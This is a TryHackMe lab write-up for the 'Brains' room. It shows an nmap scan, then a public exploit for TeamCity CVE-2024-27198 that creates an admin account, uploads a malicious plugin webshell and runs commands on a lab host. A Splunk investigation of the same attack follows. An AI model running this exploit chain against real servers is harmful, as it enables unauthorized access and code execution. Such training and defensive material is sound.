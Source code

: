 ```yaml
---
title: "TryHackMe: Brains"
author: c3l1kd
categories: [TryHackMe]
tags: [web, authentication bypass, rce, splunk]
render_with_liquid: false
img_path: /images/tryhackme_brains/
image:
  path: room_image.webp
---
```


**Brains** was a room focused on an **authentication bypass** vulnerability in **TeamCity** (**CVE-2024-27198**). We began as an attacker, exploiting the vulnerability to achieve **remote code execution (RCE)** and capture a flag. Afterward, we switched roles to become a defender, using **Splunk** to inspect logs and answer questions related to an attacker who had compromised a machine using the same vulnerability.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/brains){: .center }

## Red Team

We begin the room on the red side, tasked with attacking a target. Starting with an `nmap` scan.

### Nmap Scan

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.164.206
Nmap scan report for 10.10.164.206
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
|   256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_  256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open  ibm-db2?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Fri, 04 Oct 2024 23:37:31 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
...
```

Three ports are open:

- **22** (SSH)
- **80** (HTTP)
- **50000** (HTTP)

### Web 80

Upon visiting `http://10.10.164.206/`, we encounter a simple page displaying a "Maintenance" message.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

### Web 50000

Accessing `http://10.10.164.206:50000/`, we find a `TeamCity Version 2023.11.3 (build 147512)` installation.

![Web 50000 Index](web_50000_index.webp){: width="1200" height="600" }

### CVE-2024-27198

Searching for vulnerabilities in `TeamCity Version 2023.11.3`, we discover [this article](https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199), which details an **authentication vulnerability** in **TeamCity** due to URL parsing. It also explains how this can be exploited for **remote code execution (RCE)** by using the vulnerability to interact with the API, allowing the creation of an admin account that can then be used to upload a malicious plugin.

Looking for available exploits, we find [this exploit](https://github.com/W01fh4cker/CVE-2024-27198-RCE) that automates the aforementioned steps.

After downloading and running the exploit, we gain a shell as the `ubuntu` user and can read the flag located at `/home/ubuntu/flag.txt`.

```console
$ python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.164.206:50000

 _____                     ____ _ _           ____   ____ _____
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker

[+] User added successfully, username: xbbzhkls, password: RdlWm1rrIS, user ID: 11
[+] The target operating system version is linux
[!] The current version is: 2023.11.3 (build 147512). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y
[+] The malicious plugin FAzd42PL was successfully uploaded and is trying to be activated
[+] Successfully load plugin FAzd42PL
[+] The malicious plugin FAzd42PL was successfully activated! Webshell url: http://10.10.164.206:50000/plugins/FAzd42PL/FAzd42PL.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
command > wc -c /home/ubuntu/flag.txt
38 /home/ubuntu/flag.txt
```
{: .wrap }


## Blue Team

Next, we transition to the blue side, starting by logging into the provided `Splunk` server and navigating to the `Search & Reporting` section.

### Added User

Our first question is: **What is the name of the backdoor user that was created on the server after exploitation?** 

We can find this by searching the `/var/log/auth.log` source for the `useradd` string with the query: `source="/var/log/auth.log" *useradd*`.

We can observe the backdoor user being created on **July 4, 2024**.

![Splunk Useradd](splunk_useradd.webp){: width="1200" height="600" }

### Installed Package

Our next question is: **What is the name of the malicious-looking package installed on the server?** 

To find the answer, we can look for packages installed around the same timeframe as the user creation using the `/var/log/dpkg.log` source with the query: `source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*`.

![Splunk Package Installed](splunk_package_installed.webp){: width="1200" height="600" }

### Plugin Upload

The final question is: **What is the name of the plugin installed on the server after successful exploitation?** 

We can find the answer by searching the `/opt/teamcity/TeamCity/logs/teamcity-activities.log` source for the `plugin` keyword: `source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*`.

![Splunk Plugin Upload](splunk_plugin_upload.webp){: width="1200" height="600" }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>